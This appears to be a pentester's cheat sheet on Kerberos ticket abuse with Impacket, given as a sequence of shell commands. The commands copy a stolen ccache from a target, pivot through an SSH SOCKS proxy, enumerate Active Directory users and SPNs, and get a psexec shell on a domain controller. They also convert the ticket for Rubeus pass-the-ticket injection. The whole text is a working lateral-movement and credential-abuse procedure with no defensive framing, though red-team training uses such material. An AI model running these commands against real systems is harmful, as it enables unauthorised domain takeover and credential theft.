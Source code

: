 # Impacket

## Kerberos with Impacket

in order to perform ticket manipulation we need to install the kerberos linux client utilities on the kali box

```
apt install krb5-user 
```

* If you screw up the install or need to change something
  * sudo dpkg-reconfigure krb5-config
  * all values to target domain

We’ll also have to copy the ccache file previously obtained to our local Kali box

```
scp kali@targetbox:/tmp/krb5cc_minenow /tmp/krb5cc_minenow
```

Next we’ll have to update the environment variable on our local kali box

```
export KRB5CCNAME=/tmp/krb5cc_minenow
```

We’ll need to update the hosts file to map the hostnames to IP addresses

```
sudo echo '192.168.2.2 dc01.domain.com' >> /etc/hosts
sudo echo '192.168.2.2 domain.com' >> /etc/hosts
```

Also the source IP address will have to be correct so proxychains will need to be used

proxychains4.conf will need to comment out DNS

```
sed -i 's/proxy_dns/\#proxy_dns/g' dns.txt
```

set up a socks server on the pivot host

```
ssh kali@targetbox -D 9050
```

now proxychains & impacket can be used to interact with the remote host

```
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.X.Y DOMAIN.COM/Administrator
```

Gather a list of SPNs available

```
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.X.Y DOMAIN.COM/Administrator
```

get a shell on the remote box

```
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.DOMAIN.COM -k -no-pass
```

Renew

```
proxychains kinit -R
```

Convert ccache to kirbi

```
./ticket_converter.py admin.ccache admin.kirbi
```

inject ticket on compromised windows box

```
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```
